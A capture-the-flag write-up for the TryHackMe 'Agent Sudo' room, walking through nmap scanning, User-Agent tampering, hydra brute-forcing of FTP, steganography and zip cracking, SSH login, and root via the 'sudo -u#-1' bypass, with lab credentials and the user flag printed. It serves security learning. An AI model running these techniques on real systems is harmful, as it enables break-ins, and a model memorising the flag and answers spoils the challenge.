




# Agent Sudo

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Red Team  

## Overview

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

## Enumeration

### Command Used
```bash
sudo nmap 10.48.141.78 -n -T4 -sC -sV -oN Nmap-Scan
```
### Output
```ansi
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 18:46 +0530
Nmap scan report for 10.48.141.78
Host is up (0.026s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.55 seconds
```

### Analysis

The scan revealed three open services:

- **FTP (Port 21)**  
  FTP service is available and should be tested for anonymous access.

- **SSH (Port 22)**  
  Standard SSH service, likely useful after obtaining credentials.

- **HTTP (Port 80)**  
  A web application is running with the title “Annoucement”, which may contain useful information or clues for further exploitation.

## Web Enumeration 

Accessed:
- http://10.48.141.78/

### Homepage



### Source Code



### Observation

The web page displayed the following message:

```
Use your own codename as user-agent to access the site.
```

---

### Analysis

This indicates that the application behavior depends on the `User-Agent` HTTP header.

---

### Exploitation

The `User-Agent` header was modified using curl:

```bash
curl -A "R" -L http://10.48.141.78
```
### Output
```ansi
┌─[zeref@Athena]─[~/TryHackMe/Agent-Sudo]─[192.168.137.158]
└──╼ $ curl -A "R" -L http://10.48.141.78
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>
```
### Result

The server responded differently when a valid codename was used, revealing additional information required for further exploitation.


Further testing identified another valid codename:

```bash
curl -A "C" -L http://10.48.141.78
```
### Output
```ansi
┌─[zeref@Athena]─[~/TryHackMe/Agent-Sudo]─[192.168.137.158]
└──╼ $ curl -A "C" -L http://10.48.141.78                                
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```
### Conclusion

This revealed:
- Valid username: `chris`
- Another user: `j`
- Password hint: weak password

---

## Credential Discovery

### Brute Force Attack

Using the identified username `chris`, a brute-force attack was performed against the FTP service:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.48.141.78
```
### Output
```ansi
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.48.141.78:21/
[21][ftp] host: 10.48.141.78   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-30 19:20:07
```
### Result

```
Username: chris
Password: crystal
```

---

## FTP Access

### Login

```bash
ftp 10.48.141.78
```

Credentials:
```
Username: chris
Password: crystal
```

---

### Files Retrieved

- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`

---

### File Analysis

Contents of `To_agentJ.txt`:

```ansi
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

### Analysis

The message indicates that the images are deceptive and likely contain hidden data.
It suggests the use of steganography to extract the password for user j from the image files.

## Steganography Analysis

### Extraction
```bash
stegseek cute-alien.jpg --wordlist /usr/share/seclists/rockyou.txt
```

### Result

Passphrase identified:
```
Area51
```

Hidden data extracted:

```bash
steghide extract -sf cute-alien.jpg
```

---

### Output

```
Hi james,

Your login password is hackerrules!
```
Extracting hidden data from Cutie.png

### Command Used
```bash
dd if=cutie.png of=hidden.zip bs=1 skip=34562
```
### Convert Zip to hash to crack
```bash
zip2john hidden.zip > hash.txt
```

### Crack the hash
```bash
sudo john hash.txt --wordlist=/usr/share/seclists/rockyou.txt
```
### Unzip the hidden.zip
```bash
7z x hidden.zip
```

- You will see **To_agentR.txt** File.

### To_agentR.txt
```ansi
┌─[zeref@Athena]─[~/TryHackMe/Agent-Sudo]─[192.168.137.158]
└──╼ $ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

### Brake the Cipher from CyberChef



- Pass is Area51 (for Steg) 

### Conclusionssh james@10.48.159.105

Credentials discovered:
- Username: `james`
- Password: `hackerrules`

These credentials can be used to gain SSH access to the target system.

## Initial Shell
```bash
ssh james@10.48.159.105
```
## Post Exploitation Enumeration

- We found user flag
```bash
b03d975e8c92a7c04146cfa7a5a313c7
```
- We also get **Alien_autospy.jpg** in james user folder transfer it to your Own system

### Command to Download the Files
```bash
sudo scp james@10.48.141.78:/home/james/Alien_autospy.jpg .
```
- Its a Normal image we have to revere the image and look for the Foxnews article.




- Incident name is **Roswell alien autopsy**

## Privilege Escalation

### Checking Sudo Permissions

```bash
sudo -l
```

### Observation

The user `james` is allowed to run `/bin/bash` as any user except root:

```
(ALL, !root) /bin/bash
```

---

### Analysis

Although root execution is restricted, this can be bypassed using a negative UID, which maps to root.

---

### Exploitation

```bash
sudo -u#-1 /bin/bash 
```
- **Source** https://www.exploit-db.com/exploits/47502

### Result

```bash
whoami
root
```

---

## Root Flag

```bash
cat /root/root.txt
```
## Learnings

- HTTP headers can be manipulated to bypass access controls  
- Weak passwords are vulnerable to brute-force attacks  
- Steganography can hide sensitive data in multiple formats (JPG, PNG)  
- Manual file carving is useful when automated tools fail  
- Encoded data (Base64) can reveal critical information  
- Misconfigured sudo permissions can lead to full system compromise  

# Thanks For Reading | Creator Zeref0xD
